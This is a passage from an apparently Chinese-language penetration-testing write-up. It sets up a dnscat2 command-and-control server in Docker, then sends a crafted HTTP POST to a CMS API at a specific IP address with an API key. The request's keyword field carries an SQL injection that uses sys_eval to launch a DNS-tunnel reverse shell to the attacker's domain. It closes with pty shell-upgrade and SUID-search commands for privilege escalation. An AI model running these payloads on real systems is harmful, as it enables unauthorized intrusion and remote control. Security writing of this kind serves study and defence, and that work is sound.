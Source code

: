 [![](assets/1708919820-d0e0c0c2c3e7d6ddbc12857f676674fb.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240215024837-a973be90-cb69-1.png)

然后在 vps 上起一个 dnscat 的 docker

```plain
docker run -p 53:53/udp -it --rm mpercival/dnscat2 ruby ./dnscat2.rb ns1.xxx.xxx -c datou
```

这里注意吧 vps 的 53 端口添加 udp 协议许可

```plain
POST /api/pages/cms/libraryText/list HTTP/1.1
Host: 39.100.183.36
X-SS-API-KEY: e7d41890-5742-48f0-9f3c-1393db541fc7
Content-Type: application/json
Content-Length: 131

{"siteId":1,"keyword":"';select sys_eval('/tmp/dnscat --secret=datou ns1.xxx.xxx')-- ","groupId":0,"page":1,"perPage":24}
```

出现 New window created: 1 说明执行成功

```plain
window -i 1
shell//显示New window created: 3，然后换到 3
window -i 3
python -c 'import pty;pty.spawn("/bin/bash")'
```

**提权部分**

```plain
find / -perm -u=s -type f 2>/dev/null
```
